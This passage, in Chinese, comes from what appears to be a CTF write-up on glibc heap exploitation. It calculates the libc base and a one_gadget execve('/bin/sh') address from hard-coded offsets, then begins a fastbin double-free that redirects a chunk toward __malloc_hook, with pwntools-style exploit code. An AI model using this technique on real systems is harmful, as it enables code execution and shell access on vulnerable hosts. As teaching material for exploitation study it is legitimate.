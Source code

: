 可以看到，该地址距离libc的偏移为0x3c4b78，由此可计算出libc的基地址。

### 覆盖__malloc_hook地址

有了libc的基地址，此时就需要计算执行execve("/bin/sh",0,0)命令的地址和__malloc_hook前符合要求伪造堆块的地址。

可以通过one_gadge获取执行execve("/bin/sh",0,0)命令的偏移

![](12.png)

通过寻找可以发现__malloc_hook前有一个符合要求的地址，该地址距离libc的偏移为0x3c4aed。

![](13.png)

可以根据泄露的libc地址来计算这两个地址
```
libc_base = u64(dump(2, 8)) - 0x3c4b78
fake_heap = libc_base + 0x3c4aed
execve_shell = libc_base + 0x4526a
```

那么最后就是利用fastbin double free来修改__malloc_hook的地址。从上面发现符合要求的伪造堆块地址可以看到，该堆块的size为0x7f，符合fastbin表中的大小。

首先创建一个大小在0x7f-0x80之间的堆块，该堆块会处于chunk4中，然后释放chunk4，再通过编辑chunk2，将chunk4->fd修改为伪造的堆块地址。
```
allocate(0x60)
free(4)
payload = p64(fake_heap)
fill(2, payload)
```
